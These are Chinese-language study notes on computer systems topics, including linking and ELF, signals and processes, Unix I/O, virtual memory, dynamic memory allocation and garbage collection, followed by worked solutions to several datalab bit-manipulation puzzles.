上图是一种 bijk 的矩阵乘法形式。基本思想就是将矩阵 A 和 C 拆分成 $1\times bsize$ 行条状数组，将 B 拆分为 $bsize \times bsize$ 的块状数组。然后进行以下运算：

```c
void bijk(array A, array B, array C, int n, int bsize) {
    // n 是矩阵的边长
    // en 表示原矩阵可以正好 bsize*bsize 方块的长度
    int en = bsize * (n / bsize);
    for (int kk = 0; kk < en; kk += bsize) {
        for (int jj = 0; jj < en; jj += bsize) {
            for(int i = 0; i < n; i++) {
                for(j = jj; j < jj + bsize; j++) {
                    double sum = c[i][j];
                    for(k = kk; k < kk + bsize; k++) {
                        sum += A[i][k] * B[k][j];
                    }
                    c[i][j] = sum;
                }
            }
        }
    }
}
```

jk 循环多次重复使用 A 矩阵的行条状数组，相比于 kji 的乘法方式进一步提高的时间局部性。

对于 i 循环，又多次重复使用 B 矩阵中的块状数组，也提高了对 B 矩阵的时间局部性。

当数组过于小的时候可以不使用分块技术。

分块技术受矩阵大小和缓存的配置信息（block 数据大小，line 的数量以及cache大小）都有关系，不好掌控最好的优化方法。

## 六. 链接 linking

链接操作可以在编译时(compile time)、加载时(load time)和运行时(run time)执行。

### 1. Basic


为什么需要链接器：

1. 模块化，程序可以写成一个个小的模块化文件，提高代码的可复用性
2. 效率，只需要将修改的模块重新编译，再将所有模块重新链接，不需要重新编译其他的源文件。

链接器做了什么：

1. 符号解析 symbol resolution

   符号指的是：程序定义和引用的符号（全局变量和函数），符号表中的符号

   

2. 重定向 relocation

   将所有模块合并到一个可执行目标文件中。在合并的时候必须搞清楚每个符号被存储到哪里，并且会决定程序执行的时候每个符号最终在内存中的位置，将绝对内存位置和符号绑定在一起。

   

三种模块：

1. relocateable object file (`.o` 文件)

   由 `.c` 文件用编译器生成，用于合并成可执行文件。

2. Executable object file (`.out` 文件)

   可以直接运行的程序。

3. Shared object file (`.so` 文件)

   可以动态链接的特定重定向文件，在 windows 端为 DLL 文件。

### 2. ELF 文件格式

ELF 全称 Executable and Linkable Format，可执行和可链接格式，是 `.o` 、`.so` 和可执行文件的统一格式。


ELF 格式如上图：

* ELF 头：定义了字(word)的大小、字节顺序以及文件类型的内容，机器类型，节头部表(section header table)
* segment header table: 为可执行文件而定义，用来指明代码所有不用的段所在内存位置
* text 表：用于存储代码信息（只读）
* rodata 部分：用于存储 switch 语句中的跳转表（只读）
* data 部分：用于保存所有已初始化的全局变量和静态 C 变量。
* bss (**b**lock **s**tarted by **s**ymbol)部分：定义了未初始化的全局变量和静态 C 变量。以及所有被初始化为 0 的全局变量和静态变量。
* symtab 部分：是一个 struct 数组，存储函数和静态变量的名称，以及各个段的名称和位置
* rel txt/data 部分，编译器告诉链接器需要进行链接的函数和变量
* debug 部分，包含将原代码行号和机器代码中行号向关联的信息，需要使用 `-g` 参数才有。
* section header table: 告诉不同 section 的其实位置

静态变量存储在 bss 段或者是 data 段

链接器符号：

* 全局符号(global symbols) : 在本模块中定义，被其他模块使用
* 外部符号(external symbols): 在本模块中使用，在其他模块定义
* 局部符号(local symbols): 符号只在本模块中定义和使用

### 3. 链接规则

同名符号分为强和弱：

* 强符号：函数或者已初始化的全局变量
* 弱符号：未初始化的全局变量

链接器如何区分重复的符号：

1. 不允许多个同名强符号
2. 如果有一个强符号和多个弱符号，只选择强符号；引用弱符号会解析为强符号
3. 如果有多个弱符号，则会随机选一个


以上是可能会出现的链接错误。第三种情况如果写入 x 的值，会导致覆盖 y 的值，因为 double x 为 8 个字节，p1 中 x 和 y 数据保存相连的，所有会导致 x 覆盖 y 的值。

链接器如何重定向：


当编译器对于单个源文件进行编译的时候，如果引用外部符号时候会为留下占位符，然后等链接器将对应符号进行链接即可。图中留给 array 地址暂时填充为立即数 0。a 和 f 为对应 text 段的偏移量。

### 4. 静态链接库

对于经常使用的函数，需要将其定义在一个库中，提高代码复用性。


静态链接库将所有的重定向文件链接成一个单独的文件。


如果一个程序调用了库中的函数，链接器如果检测到有使用到对静态链接库 (`.a`) 中函数的引用，它会将相应的模块 (`.o`) 拉出来并且忽略其他的模块。

链接器在链接静态库的步骤：

1. 按指令顺序扫描所有 `.o` 和 `.a` 文件
2. 在扫描期间，保存一个当前还未解析引用的清单
3. 遇到每个新的 `.o` 和 `.a` 文件就扫描定义在目标文件中未解析的符号
4. 如果扫描结束后还存在为解析的符号则报错。

> 在 C/C++ 编译链接过程中，对文件不同顺序可能会导致不同的结果

### 5. 动态链接库

静态库有个缺点：每个内部使用 printf 的函数都必须要有 printf 函数的副本

动态链接库：动态将数据和代码加载到应用中，可以在程序加载期间或者运行期间。可以减小程序体积。

在加载期间动态链接库：


在运行期间加载动态链接库：


### 6. 库注入

库注入(library interpositioning)

## 七. 异常控制流

之前学过两种改变控制流的方法：jump 和 call。但是之前只能改变**程序状态**，但是很难对**系统状态**改变做出反应：比如除 0，ctrl+c，硬盘状态等，因此就需要异常控制流来进行处理。

异常控制流存在于计算机系统多个层级：

* Low Level: Exceptions. 通常使用硬件和操作系统进行实现。
* High Level：
  * 程序上下文切换：由硬件和 OS 实现。
  * 信号： 由 OS 实现。
  * 非局部跳转：

### 1. Exceptions

异常就是因为某些事件将程序执行控制权交给 OS 内核（列出文件夹目录，列出当前进程等等）。


系统启动的时候，操作系统分配和初始化一张成为异常表的跳转表，操作系统会维护多个异常表，每个异常对应一篇代码区域应对异常。


处理器通过异常号和异常表基址寄存器来找到对应异常表项的地址。

异常又可以分为两种：

1. 异步异常：又成为**中断**(Interrupts)，由 CPU 外部事件造成。比如时间中断(定时任务)，外部设备的 IO 中断(Ctrl+C, 网卡接收到数据包, 从硬盘读取到数据)。

2. 同步异常：其又分为多类：

   * Trap: 是故意出发的异常，比如使用系统调用(system calls)

     

   * Fault: 无意触发并且有可能恢复的。比如 page fault，protection fault

   * Abort：无意且不可恢复的，非法指令

### 2. 进程

进程：是正在运行程序的实例。

进程提供两个重要的抽象：

1. 逻辑控制流：每个程序看起来都能够独占 CPU （程序上下文切换）
2. 私有地址空间：每个程序看起来都能独占使用内存（虚拟内存）

假设在单核机器上进行进程时间片切换的时候，OS 会将当前寄存器信息和地址信息保存到栈帧中，然后加载下一个程序栈帧中的寄存器和地址信息，这样就完成了地址切换。


创建进程：`fork()` 函数会调用一次返回两次，对于子进程返回 0，对于父进程返回子进程 PID。


fork 是再创建一个进程从当前代码执行处继续运行，而不是新创建从头开始运行的线程。新创建的子进程几乎与父进程相同吗，子进程得到与父进程用户及虚拟地址空间是相同的副本（包括代码、数据段、堆栈、共享库等等），之后两者所作的操作都是完全独立的。

当子进程结束的时候，OS 会一直保存子进程的状态，因为父进程有可能想知道子进程的退出状态。而对于已经死亡的子进程，只有父进程使用 `wait` 或者 `waitpid` 才能够回收(reap)子进程，或者父进程被 kill 之后等待 Linux 中的 `init` 进程回收子进程。


🔵execve

fork 函数是创建相同代码、相同变量的程序副本，execve 是在进程内运行不同的程序。

其会覆盖所有的代码、数据和堆栈，只保留 PID、打开的文件和上下文信号。


在 Linux 中提供了一种可以在用户模式访问内核数据结构的文件即 `/proc` 目录，可以通过查看文件信息获取数据：

```sh
# 查看 CPU 信息
cat /proc/cpuinfo
# 查看进程使用内存段
cat /proc/<pid>/maps
```


其中数字大多为进程 pid。

### 3. 信号 Signals

如果后台任务足够多就会出现[内存泄漏](https://en.wikipedia.org/wiki/Memory_leak)，这样系统可能会因此而崩溃。

信号是 OS 由于某些事件传递给进程的信息。


```sh
$ kill -l
1) SIGHUP       2) SIGINT       3) SIGQUIT      4) SIGILL       5) SIGTRAP
6) SIGABRT      7) SIGBUS       8) SIGFPE       9) SIGKILL     10) SIGUSR1
11) SIGSEGV     12) SIGUSR2     13) SIGPIPE     14) SIGALRM     15) SIGTERM
16) SIGSTKFLT   17) SIGCHLD     18) SIGCONT     19) SIGSTOP     20) SIGTSTP
21) SIGTTIN     22) SIGTTOU     23) SIGURG      24) SIGXCPU     25) SIGXFSZ
26) SIGVTALRM   27) SIGPROF     28) SIGWINCH    29) SIGIO       30) SIGPWR
31) SIGSYS      34) SIGRTMIN    35) SIGRTMIN+1  36) SIGRTMIN+2  37) SIGRTMIN+3
38) SIGRTMIN+4  39) SIGRTMIN+5  40) SIGRTMIN+6  41) SIGRTMIN+7  42) SIGRTMIN+8
43) SIGRTMIN+9  44) SIGRTMIN+10 45) SIGRTMIN+11 46) SIGRTMIN+12 47) SIGRTMIN+13
48) SIGRTMIN+14 49) SIGRTMIN+15 50) SIGRTMAX-14 51) SIGRTMAX-13 52) SIGRTMAX-12
53) SIGRTMAX-11 54) SIGRTMAX-10 55) SIGRTMAX-9  56) SIGRTMAX-8  57) SIGRTMAX-7
58) SIGRTMAX-6  59) SIGRTMAX-5  60) SIGRTMAX-4  61) SIGRTMAX-3  62) SIGRTMAX-2
63) SIGRTMAX-1  64) SIGRTMAX
```

以上是 linux 中传递给进程信号类型。目前 Linux 支持64种信号。信号分为非实时信号(不可靠信号)和实时信号(可靠信号)两种类型，对应于 Linux 的信号值为 1-31 和 34-64。

对于不可靠信号，任意给定时间点内只能由一个特定类型的 pending 信号 (pending 信号就是内核发送但是没收到)。而且需要注意的是信号处理不是一个队列，多次发送相同的信号，进程只能收到一次。

🔵在进程组中发送信号


通过 `getpgrp()` 和 `setpgid()` 来获取进程组的信息。

```sh
# 向 10086 进程发送信号
kill -9 10086
# 向 10086 这个进程组所有子进程发送信号
kill -9 -10086
```

🔵如何编写安全的信号处理接口(handler)

* 让 handler 尽量简单

* handler中仅调用 async-signal-safety 属性的函数，比如 printf sprintf malloc exit 函数不安全。

  可重入函数是将所有的数据都保存在自己的堆栈上，没有全局变量，这种函数是可重入(reentrant)的。async-signal-safety 函数都是可重入或者不可被信号打断的。

  

  linux 可以查看使用命令 `man 7 signal` 查看 async-signal-safety 函数。 `printf` 会在打印之前获取一个锁(全局变量)，在获取锁之后如果获得信号被打断，在 handler 中也调用  `printf` 函数，又需要获取锁，就会出现死锁的现象。

* 在开始和退出的时候保存和加载 errno (全局变量)，防止被其他 handler 覆盖。

* 在访问共享数据的时候应该临时阻塞信号来防止共享数据被破坏，否则可能会出现数据不一致的情况。

* 声明全局变量为 `volatile` ，防止将数据写入寄存器，进程直接对内存进行读写，防止数据不一致。

* 对于原子变量，应该设置类型为 `sig_atomic` 类型，保证读写原子性。

* 不能使用信号来统计事件，因为信号是可以被覆盖的。

🔵Linux 信号阻塞机制：

* 隐式阻塞：内核默认阻塞正在处理信号类型的待处理信号。如果程序正常处理信号 k，再次发送信号 k 的时候会直接返回。
* 显式阻塞：显式阻塞使用函数 `sigprocmask` 等函数。

🔵常见函数

* `execve()` 

  ```c
  int execve(const char *pathname, char *const argv[], char *const envp[]);
  ```

  用于执行 pathname 路径的程序，会替换当前运行的程序，并且初始化新的堆栈。

* `atexit()`

  ```c
  int atexit(void (*function)(void));
  ```

  注册一个函数，在程序结束时候执行。

  ```c
  109 void cleanup(void) {
  110     printf("Cleaning up\n");
  111 }
  112
  113 /*
  114  * fork6 - Exit system call terminates process
  115  * call once, return never
  116  */
  117 void fork6()
  118 {
  119     atexit(cleanup);
  120     fork();
  121     exit(0);
  122 }
  ```

* `wait()`, `waitpid()`

  ```c
  #include <sys/types.h>
  #include <sys/wait.h>
  
  pid_t wait(int *status);
  
  pid_t waitpid(pid_t pid, int *status, int options);
  /* This is the glibc and POSIX interface */
  ```

  `wait(&status)` 函数相当于 `waitpid(-1, &status, 0)`

  其中 pid ：

  * < -1   意味着所有子进程的组进程ID等于 pid 的绝对值
  *  -1     意味着任意一个子程序
  * 0       意味着所有组进程 ID 与父进程的组进程 ID 相同的子进程
  * \>0    意味着特定 PID 的子程序

* 根据查询标志(status)来查看程序状态的函数

  * `WIFEXITED(status)` 查看子程序是否退出
  * `WEXITSTATUS(status)` 查看子程序退出状态码

* `kill()`

  ```c
  #include <sys/types.h>
  #include <signal.h>
  
  int kill(pid_t pid, int sig);
  ```

  向对应的程序发送信号：

  ```c
  kill(pid, SIGKILL);
  ```

* `signal()`

  在不使用 signal 函数之前，对于不同的信号类型都会有默认的程序行为。

  

  ```c
  #include <signal.h>
  typedef void (*sighandler_t)(int);
  sighandler_t signal(int signum, sighandler_t handler);
  ```

  用于在程序接收到信号的时候替换默认的处理行为。

  ```c
  // 忽略信号
  signal(SIGKILL, SIG_IGN);
  // 还原回默认处理
  signal(SIGKILL, SIG_DFL);
  ```

  > The signals SIGKILL and SIGSTOP cannot be caught or ignored.

* `sigprocmask()`

  ```c
  int sigprocmask(int how, const sigset_t *set, sigset_t *oldset);
  ```

  how 的取值：

  | how         | 说明                                                         |
  | :---------- | :----------------------------------------------------------- |
  | SIG_BLOCK   | SIG_BLOCK表明设置当前进程新的信号屏蔽字为 “当前信号屏蔽字” 和 第二个参数指向的信号集的并集，set包含了我们希望阻塞的附加信号 |
  | SIG_UNBLOCK | 该进程新的信号屏蔽字是其当前信号屏蔽字和set所指向信号集补集的交集，即从原来屏蔽字中删除掉 set 中的信号，set包含了我希望解除阻塞的信号 |
  | SIG_SETMASK | 该进程新的信号屏蔽字将被set指向的信号集的值代替              |

  oldset 用于保存之前的状态字

  sigemptyset	–	Create empty set	

  sigfillset –	Add every signal number to set

  sigaddset	–	Add signal number to set	 

  sigdelset	–	Delete signal number from set	

## 八. 系统级IO


大部分时候使用高级别 IO 就能工作，为什么需要学习系统级 IO？

* 有助于帮助理解其他系统概念
* 有时候除了 Unix IO 别无选择

### 1. Unix I/O

常见文件类型分为三类：

1. 常规(regular)文件

   对于 Linux 或者 MacOS 换行符为 `\n` (0xa)，Windows 是 `\r\n` (0xd 0xa)

2. 文件夹

3. Socket：用于和其他机器的进程通信

File Descriptor(文件修饰符)：是一个 int 数值，是按照程序运行开始打开文件的顺序编号的。实际上是一个索引值，指向内核为每个进程维护的打开文件的记录表。其中 0 表示标准输入，1 表示标准输出，2 表示标准错误。

🔵**short count：**

当从文件进行读取的时候：

```c
char buf[512];
int fd;
int nbytes

// 打开文件描述符，并从中读取 512 字节的数据
if ((nbytes = read(fd, buf, sizeof(buf))) < 0)
{
    perror("read");
    exit(1);
}
```

如果缓存区大小要小于文件大小，那么 `read` 函数不会一次性读取完毕，会出现 `nbytes` < `sizeof(buf)` 的情况，并且这不是错误。

short count 不应该出现在以下场景：

* 从硬盘文件中进行读取
* 向硬盘文件进行写入

### 2. Robust I/O

> Proxy lab 会使用，可以阅读以下源码

RIO 提供了两种级别的文件 IO：

* 低级别接口知识简单的对底层 IO 读写进行了封装，并且处理了 short count
* 其他级别添加了 Buffered IO 处理。

函数介绍：

* Unbuffered IO

  * `rio_readn`：指定多少字节就读多少字节，不会出现 short count 的问题。对于网络连接的话需要慎用，如果未读到指定字节数的数据，它会一直挂起知道读完为止。

* Buffered IO

  这种 IO 是线程安全的，并且可以在相同的文件修饰符上进行任意交叉(interleaved arbitratily)

  * `rio_readlineb`
  * `rio_readnb`

### 3. Metadata, sharing and redirection

Metadata is data about data. 通常由内核进行维护，用户可以通过 `stat` 或者 `fstat` 函数来进行访问。

🔵Linux 中是如何表示已经打开的文件


对于每个进程都会有一个修饰符表(descriptor table)，每个文件修饰符指向打开的文件表（所有进程共享），在文件表表头都指向文件的信息表(v-node)，用户使用 `stat` 函数就是查看 v-node 表中的信息。

🔵文件共享


如果程序经过 fork 之后，refCnt 会 +1.

🔵IO 重定向

比如：`ls > foo.txt`，在 C 中使用 `dup2` 函数

### 4. 标准 I/O


### 5. 对比

什么时候该使用什么类型的 IO？


## 九. 虚拟内存

### 1. 地址空间


当 CPU 想要访问某个地址数据的时候，内存管理单元(Memory Manage Unit, MMU)会首先拦截 CPU 的地址请求，然后将虚拟地址转换为物理地址，才能够方位对应数据。

什么是地址空间：

* 线性地址空间：对于非负有序的地址集合：$\{1,2,3,...\}$，地址空间是整数而且连续的。
* 虚拟地址空间：所能表示的最大位数来表示，$\{1,2,3,...,N-1\}$，其中 $N=2^n$ 个地址就可以叫做 n 位地址空间。所有进程看到的虚拟地址都是相同的。
* 物理地址空间：大小由事件硬件决定，通常情况下虚拟地址要比物理地址大得多。

为什么需要虚拟内存？

1. 更加有效地利用主存：可以看成存储磁盘数据的缓存，根据局部性原理，将硬盘数据加载进内存之后，读写效果要比直接读写硬盘中的数据效率要更高。
2. 极大的简化内存管理：每个程序看起来都有一致的线性地址空间，比如在 Linux 下，所有程序的其实地址都是 0x4000000.
3. 隔绝地址空间保证进程安全：内核为每个进程都提供了单独的地址空间，地址空间受到保护不被其他进程访问。

### 2. 虚拟内存——缓存


虚拟内存：存放在**磁盘**上的 N 个连续字节大小的数组，每个字节都有对应的虚拟地址。

物理内存：用于在**主存**(DRAM 缓存)上缓存虚拟内存的地址。

然后和传统的缓存不相同之处：

* 如果主存未命中那么从硬盘中读取数据的速度要更慢
* 内存可以看作全相联映射，但是每个页(块)的大小通常为 4KB 或者 4MB，因此需要一个很大的映射函数
* 需要一个极其复杂的替换算法，要比 lru 更复杂。
* 通常使用写回策略而不是直写策略。

🔵页表

页表是由页表项(Page Table Entries, PTE)组成，用于将虚拟地址映射为物理地址。每个程序都有一个页表，页表是保存在 DRAM 上的。


页命中(Page Hit)：如果对应页表项中的页正好在主存中，则命中。

缺页(Page Fault)：如果对应页表项中的页存储在硬盘上，则为缺页，会触发缺页异常。然后将执行控制权转移到缺页处理程序的代码块，将主存上的一个页逐出(evict)，然后将硬盘上的页存放到主存中。

分配页(Page Allocation)：将页表中为 null 的项指向硬盘中的区域，当使用的时候再移动到主存中。

### 3. 虚拟内存——内存管理


进行内存管理的方便之处：

* 每个虚拟页都可映射到任意的物理页；在不同的时间虚拟也映射到不同的物理内存上。

* 对于一些共享库或者共享数据，不同的虚拟页项可以指向相同的物理页上。
* 使用虚拟内存也可以大大简化 linking 和 loading

### 4. 虚拟内存——内存保护

有些地址是 read-only，比如内核代码和数据。在 64 位机器中，内存可用的部分只有后 48 位，前 16 为要么是全 0 要么是全 1，全 0 的部分可用由用户进行使用，全 1 的部分只能由内核进行使用。


### 5. 地址转换 


地址转换流程：

1. CPU 将虚拟地址发送给 MMU，将虚拟地址解析为虚拟页号(VPN)和虚拟页偏移(VPO)。其中虚拟页号就是页表项中的索引标志。
2. 根据页表基址寄存器(PTBR)找到进程页表存储的位置，根据虚拟页号找到对应的页表项，根据页表项得到物理页号地址(PPN)。
3. 将物理页号(PPN)和物理页偏移(PPO)拼接即可得到对应物理内存地址。（其中 PPO = VPO）

Page Hit 流程：


1. CPU 将虚拟地址发送给 MMU
2. MMU 将虚拟地址发送给 DRAM 缓存
3. 缓存将 PTE 返回到 MMU
4. MMU 根据 PTE 拼接得到物理地址(PA)发送给缓存
5.  缓存发送数据给 CPU

Page Fault 流程：


1. CPU 将虚拟地址发送给 MMU
2. MMU 将虚拟地址发送给 DRAM 缓存
3. 缓存将 PTE 返回到 MMU
4. MMU 发现有效位(valid)为0，触发缺页异常
5. 异常处理器(handler)识别出可替换的页块 A
6. 异常处理器将新的页块 B 更新页表中指向 A 的页表项
7. 异常处理器返回到原先发送缺页异常的语句，进入到 Page Hit 流程。

🔵TLB

TLB 相当于是页表的缓存，采用缓存的方式是组相联映射。


其寻址的方式是根据 VPN 来进行的，比如后 t 为标志对应哪个 set，其余位对应 Tag 用于标志对比。

🔵多级页表

为什么需要多级页表？

* 由于页表中的每一项都可能映射到物理内存中的任意一处。假如每个页大小为 4KB，在 48 位地址空间中，PTE 大小位 8 字节，那么一个程序所需要页表大小为 $2^{48}*2^{-12}*2^3=2^{39}$ 比特即 0.5 T 大小的主存才可以全部映射到，然而这是非常不现实的。

如果使用多级页表的话，大部分虚拟地址空间是未使用的，可以避免创建许多不必要的页表。


多级页表如何进行地址转换？



在虚拟地址中，在 K 级页表中，VPN 部分被等分为 K 个部分。根据 VPN 1 找到一级页表对应表项找到指向的二级页表，以此类推，最终找到 PPN。

Intel i7 的内存系统架构：


### 6. 内存映射

>这一节可以更好理解 `fork` 和 `execve` 的工作原理。

内存映射：虚拟内存区域通过与磁盘对象关联来进行初始化。

虚拟内存区域初始化方式：

1. 硬盘上的常规文件（比如可执行文件），从这个文件的一部分来初始化页。
2. 匿名文件，这是由全 0 组成的任意大小的文件，用来表示文件不存在，这只是表示的技巧。

🔵共享对象：


两个程序如果使用共享代码或者共享数据，那么其就会映射到相同的内存空间中。

还有一种是私有对象，不允许跨进程访问：


当有两个进程映射到同一个对象但不共享的时候(比如 fork 时候) ，这时候对象叫做 private copy-on-write 对象，这是由一个标志位来标记 COW 的物理内存。如果有两个进程都对同一片区域进行写操作的时候，会首先对将要写入的区域复制到空的物理内存区域，然后再对其进行写入，修改进程 2 指向所写区域的虚拟内存。


🔵重识 fork 函数

fork 函数不是单独的将两个进程的虚拟内存都指向相同的物理内存区域，也不是将父进程的所有物理内存全部复制一遍，而是使用 copy-on-write 的技术对其进行解决。

当创建子进程的时候：

1. 内核会创建与父进程相同拷贝的 `mm_struct`, `vm_area_struct` 以及页表，这些只需要很小的空间。
2. 然后将进程对应的所有的内存页都标记为 read-only
3. 然后标记每个进程的 `vm_area_struct` 为 private COW

如果只是读操作的话，就会访问两个进程共同指向同一片物理内存区域，如果是写操作就需要 copy-on-write 写入新的内存区域，并且映射到这个新的区域。

🔵重识 execve 函数

使用此函数的时候，会首先释放所有的 `mm_struct`, `vm_area_struct` 以及页表并且创建新的对象，将程序计数器 PC 指向 `.text` 段的入口。

🔵用户级别的内存映射

Linux 内核中还提供了用户级别的内存映射：

```c
#include <sys/mman.h>

void *mmap(void *addr, size_t length, int prot, int flags, int fd, off_t offset);
int munmap(void *addr, size_t length);
```

### 7. 动态内存分配——基础

相比于静态分配内存 `mmap` ，用户更喜欢动态分配内存。

动态内存分配是在堆中维护一连续的变量内存块，内存分配是通过分配器(Allocator)实现，有两种类型的分配器：

1. 显式分配器：用于分配和释放，比如 C 中的 `malloc` `free` 函数
2. 隐式分配器：只显式分配不显式释放，比如 Java 里的垃圾回收机制

分配内存的限制：

* 可以解决任何分配和释放内存的请求，free 的必须是 malloc 的内存块
* 分配器不能再控制已分配内存卡的数量和大小
* 对于 `malloc` 请求必须要快速响应
* 必须从**堆**的空闲内存空间中进行分配，不能分配已被分配的内存空间
* 必须要对所分配的对象进行对齐(alignment)操作
* 一旦内存块被分配之后，就不能移动（比如紧致(compact)操作）

内存分配的要求：既要保证分配效率又要保证内存利用率。

性能衡量指标：

* 吞吐量(throughput)：即单位时间内完成的请求数。比如在 10s 内完成了 5000 次 malloc 和 5000 次 free，那么吞吐量就是 1000op/s.
* 内存利用率峰值(peak memory utilization)：用于衡量分配器使用堆的效率，以及分配器在具体实现中所必须要使用的数据结构等各种开销上的空间浪费。由于在分配内存的时候需要考虑对齐的因素，比如第 k 次分配大小为 10 字节的内存空间(即有效荷载，payload，记为 $P_k$)就可能占用 16 字节的空间， 假设在第 k 次请求后堆的大小为 $H_k$，内存利用率峰值就是计算 $U_k=\dfrac{\max_{i\le k} P_i}{H_k}$. 那么在编写 malloc 函数的时候，必须要保证浪费的空间尽可能的小。

碎片：

* 内部碎片：如果在对齐操作中有效荷载的大小小于已分配空间的大小，即为内部碎片。
* 外部碎片：所有的空闲内存之和大于需要分配的内存大小，但是没有单独的空闲块可供分配。

实现细节：

* 在 free 时候，怎么只通过一个指针确定释放空间的大小？

  

  使用一个 header 位来标记需要分配空间的大小，在首位填写 payload + 1 的值，然后返回 payload 的其实地址。

* 如何追踪空闲块？

  1. 隐式列表，根据长度来判断下一个内存块的位置。不需要定义隐式表的变量。

     

  2. 显式链表，将所有的空闲块都链接起来

     

  3. 聚合表(Segregated free list)，也是显式链表，不过根据内存块大小进行分类

  4. 排序表，按照内存块大小进行排列，使用平衡树来进行排列。

🔵实现隐式列表：

1. 对于每个块需要同时保存块的大小和块的分配状态。如果使用两个字长来保存就会比较浪费空间，由于需要进行对齐操作，因此地址和内存块大小总是 8 字节或者 16 字节的整数倍，那么地址或者内存块大小数值低位总是为 0

   

   所有标有数字的即为 header 部分，每个虚线表示 8 字节整数倍的地址，由于对齐的规则，所有的 payload 都以虚线处为开头；并且末尾有一个特殊的 Block，即 0 字节大小已分配的 block，用于在列表合并的时候有助于使用。

2. 寻找空闲块的方法：

   * First fit，遍历列表找到第一个满足条件的内存块即可。
   * next fit，从上一次分配的位置开始遍历列表并且寻找第一个满足条件的内存块。从表面上看可以避免重复扫描，但是实际上会造成更多的外部碎片。
   * Best fit，找到一个最接近所需内存大小的空闲块，比较慢但是可以提高内存利用率。

3. 内存回收：

   

   使用 header 标记法，我们不仅需要回收当前已释放的内存块，对于相邻的空闲块也需要进行合并。合并的方式有两种：

   * 立即合并(immediate coalescing)：每次在块被释放的时候就立即合并相邻的内存块。这种方式简单明了，但是对于反复合并分割的请求来说会产生抖动。
   * 推迟合并(deferred coalescing)：分配器推迟合并，直到某个请求分配失败时候扫描整个堆，合并所有相邻的内存块。
   
   对于之后相邻的内存块我们很容易进行合并，那么如果之前的空闲块如何进行回收？还需要重新从列表头进行遍历，效率较低。
   
   
   
   因此需要一种方法进行改进，我们不仅需要 header 还需要 footer，这种方案也称为**边界标记法**(Boundary tag)，footer 也是用来标志这个内存块大小的，保存内容和 header 一致。
   
   有没有可以**优化**之处呢？
   
   * 什么时候需要 footer ？只有在进行内存块释放的时候才需要检测 footer，对于已分配的内存块完全不需要 footer。

### 8. 动态内存分配——进阶

🔵 显式空闲列表

因为块的分配和块的总数呈线性关系，对于通用的分配器，隐式空闲链表并不适合。


对于已分配的内存块和以前一样，对于空闲的内存块可以在其中添加 Next 和 Prev 指针，组成一个单链表。然后分配器只需要维护所有**空闲**的内存块，在逻辑上相当于双向链表。


对于空闲内存块所占用内存为 4 个 word：header，footer，next，prev 各一个字长。

**分配内存：**


在一般情况下，分配内存需要修改 6 个指针，比较简单一些。

**释放内存：**

对于新释放的内存块，需要重新加入到空闲列表中去。但是新的内存块放入到哪里去？放在链表头还是链表尾，还是按照地址顺序插入链表中，释放内存有以下两者策略：

* 头插法（First-in-first-out policy）

  即将新释放的内存块插入到显式空闲列表头部。

  优点：简单而且只有常数时间

  缺点：有研究表明会比按地址排序的策略产生更严重的碎片

* 按地址顺序(Address-ordered policy)

  将空闲块按照地址排列顺序进行插入

  优点：产生的碎片较少

  缺点：需要线性时间的查找

  通常这种会有人使用平衡树(比如红黑树)来进行快速搜索和插入但是常数因子会很大，而且速度非常快的分离列表(segregated lists)具有非常小的常数因子

> 宗旨：先做简单的事情，然后逐步优化，不需要过早优化。

释放内存会面临的 4 中情况：


🔵 分离空闲列表

即维护多个空闲链表，每个链表中块的大小大致相等。


分离空闲列表是迄今为止性能最好的分配器之一，其可以提高程序性能吞吐量和内存利用率。

划分依据：

* 按照 2 的幂来划分块的大小
* 将小的块放在单独链表中，大的块按照 2 的幂来划分。

分离存储的两种基本方法：

* 简单分离存储

  每个大小类的空闲链表包含大小相同的块，每个块的大小就是这个类中最大元素的大小。比如某个链表类定义为 $\{17\sim 32\}$，那么每个块都有 32 大小。

  如果链表非空，则分配链表中的第一个块；如果链表为空，则向内核申请固定大小的内存，然后将内存分成大小相同的块，插入到空闲链表头部。 

  但是会非常容易造成很多内部碎片和外部碎片。

* 分离适配

  这种情况就是用多少存放多少。

### 9. 垃圾回收 GC

垃圾回收算法算是隐式内存管理，可以自动回收已分配的堆内存，应用无需手动 free.

系统是如何知道哪些内存是可以被释放的？

* 通常情况下由于不同条件无法确切知道哪片内存将来会被使用
* 但是可以根据如果没有任何指针指向这些内存块来判断

系统是如何确定指针的？

* 内存管理可以区分指针和非指针
* 所有的指针都指向内存块的起始位置
* 不能藏任何指针，即不可用将指针转为一个整形

经典的 GC 算法：

* Mark & Sweep Collection 标记清除法

  

  从根节点出发，不可达的节点就是垃圾，可以进行回收。

  可以运行在 malloc 函数中，如果可分配的内存不足就触发垃圾回收算法，其分为两个阶段：

  1. Mark：从根节点开始，对于每个可达的内存块设置标志位
  2. Sweep：遍历整个堆并且释放所有未做标记的内存块。

* Reference counting 引用计数法

* Copying Collection 复制法

* Generational Collectors 分代法

> 更多垃圾回收内容的可以查看书 《Garbage Collection: Algorithms for Automatic Dynamic Memory》

## Appendix

### 1. datalab-wp

1. bitXor，异或运算

   ```c
   /*
    * bitXor - x^y using only ~ and &
    *   Example: bitXor(4, 5) = 1
    *   Legal ops: ~ &
    *   Max ops: 14
    *   Rating: 1
    */
   int bitXor(int x, int y) {
     return ~(~(~x&y)&~(~y&x));
   }
   ```

   根据数字逻辑电路的知识可以知道：异或可以表示为 $A\oplus B=\overline AB+A\overline B$ ，或运算只使用与和非符号可以表示为 $A+B=\overline{\overline A\ \overline B}$ 。

2. tmin，返回 int 类型补码最小值

   ```c
   /*
    * tmin - return minimum two's complement integer
    *   Legal ops: ! ~ & ^ | + << >>
    *   Max ops: 4
    *   Rating: 1
    */
   int tmin(void) {
     return 1 << 31;
   }
   ```

   即 0x80000000

3. isTmax，判断一个数是否是 TMAX

   ```c
   //2
   /*
    * isTmax - returns 1 if x is the maximum, two's complement number,
    *     and 0 otherwise
    *   Legal ops: ! ~ & ^ | +
    *   Max ops: 10
    *   Rating: 1
    */
   int isTmax(int x) {
     return (~!(x+1))&!(~((x+1)^x));
   }
   ```

   判断其是否等于 0x7fffffff。在 int 范围内只有两个数字满足 `(x+1)^x=0xffffffff`，分别是 0x7fffffff 和 0xffffffff。因此只需要接下来区分这两个数字即可。

4. allOddBits，判断所有奇数位是否全为 1

   ```c
   int allOddBits(int x) {
       int a = 0xaa+(0xaa<<8)+(0xaa<<16)+(0xaa<<24);
       return !((x&a)^a);
   }
   ```

   和 0xaaaaaaaa 对比即可。

5. negate，取负数

   ```c
   /*
    * negate - return -x
    *   Example: negate(1) = -1.
    *   Legal ops: ! ~ & ^ | + << >>
    *   Max ops: 5
    *   Rating: 2
    */
